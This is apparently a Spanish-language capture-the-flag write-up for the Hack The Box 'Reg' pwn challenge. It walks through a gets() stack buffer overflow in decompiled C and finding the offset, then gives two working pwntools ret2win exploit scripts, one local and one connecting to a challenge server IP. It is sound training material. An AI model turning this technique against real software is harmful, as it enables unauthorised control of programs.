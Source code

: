 ```yaml
---
title: Reg - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

Este es un reto de pwning, del tipo `ret2win`, el cual implica explotar un *Buffer Overflow* con el objetivo hacer una llamado a una función que imprime la `flag` del desafío por pantalla.

Para comenzar, primeramente realizamos un análisis general del binario, checando sus protecciones:

![Untitled](/assets/img/htb/pwn/Reg/Untitled.png)

Como se muestra en imagen, el binario es de `64 bits` y posee la protección `no-execute (NX)`, lo cual desde ya, significa que no podremos cargar código malicioso en el stack, mediante un `shellcode`.

Hecho esto, podemos empezar a entender la función y comportamiento del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%201.png)

Al parecer es algo bastante sencillo, ya que sólo te pide el nombre y nada más.

En base a esto, comenzamos jugar y en lugar de colocar un nombre de `10 bytes`, metemos una `string` de `100 bytes`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%202.png)

Como se muestra en imagen, el programa arroja un error `segmentation fault`, lo cual es más que suficiente para intuir que hemos desbordado el *buffer*.

Sabiendo esto, analizaremos el programa un poco más a fondo, aplicando reversing con Ghidra.

En la siguiente imagen, podemos observar que existe una función `main` la cual hace una llamada a `run`:

```c
int main(void)

{
  run();
  return 0;
}
```

La función `run` está encargada de recibir los datos del usuario por medio de la función `gets`, como se muestra a continuación:

```c
void run(void)

{
  char user_name [48];
  
  initialize();
  printf("Enter your name : ");
  gets(user_name);
  puts("Registered!");
  return;
}
```

En este punto, ya podemos identificar dónde se acontece el *buffer overflow*. 

Como se muestra en el código anterior, el programa usa la función `gets` para recibir el `input` del usuario. Dicha función es conocidamente vulnerable a ataques de desbordamiento de *buffer*, ya que esta no valida si el número de `bytes` introducidos por el usuario coinciden con aquellos que se reservaron para la variable, en base a esto el usuario puede comenzar a sobrescribir otras área de la memoria y controlar el flujo del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%203.png)

Siguiendo con Ghidra, se logra identificar una función `winner` la cual no es llamada desde `main` o `run`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%204.png)

Como se observa a continuación, el código de la función `winner` se encarga de imprimir el contenido del archivo `flag.txt` por pantalla:

```c
void winner(void)

{
  char flag_content [1032];
  FILE *flag_file;
  
  puts("Congratulations!");
  flag_file = fopen("flag.txt","r");
  fgets(flag_content,1024,flag_file);
  puts(flag_content);
  fclose(flag_file);
  return;
}
```

Una vez analizado todo el flujo del programa, continuamos con la detección del `offset`, o sea la cantidad de bytes que tenemos que meter en el *overflow* antes de sobrescribir la dirección de retorno.

Para esto computamos una cadena `100 bytes`, utilizando `pattern create` en `gdb-gef`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%205.png)

Al colocar esta cadena en el `name` provocamos que se sobrescriban los registros del programa, con lo que logramos detectar el `offset` correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%206.png)

Teniendo el `offset` en mano, sólo nos estaría faltando identificar la ubicación de memoria de la función `winner`, lo cual es logrado fácilmente con la herramienta `readelf`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%207.png)

En base a todos los datos recopilados anteriormente, se construye el siguiente exploit, el cual se encarga de explotar el BoF de manera local para leer el contenido del archivo `flag.txt`:

```python
#!/usr/bin/env python3

from pwn import process, p64

if __name__ == '__main__':
    p = process('./reg')

    offset = 56
    junk = b'\x41' * offset
    
    winner_addr = 0x401206 # winner() location

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Como se puede observar en imagen, el BoF es explotado correctamente de forma local:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%208.png)

Para explotar el BoF de forma remota, sólo tendríamos que modificar el exploit, colocando el método `remote` en lugar de `process`, y así conectarnos al server de HTB:

```python
#!/usr/bin/env python3

from pwn import remote, p64, log

if __name__ == '__main__':
    p = remote('206.189.27.45', 31721) # htb remote connection

    offset = 56
    junk = b'\x41' * offset

    # winner() function location
    winner_addr = 0x401206

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    # exploiting bof
    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Ya ejecutando el exploit, logramos obtener la `flag` del desafío correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%209.png)

### References

- gets(7) - Linux Manual Page: https://man7.org/linux/man-pages/man3/gets.3.html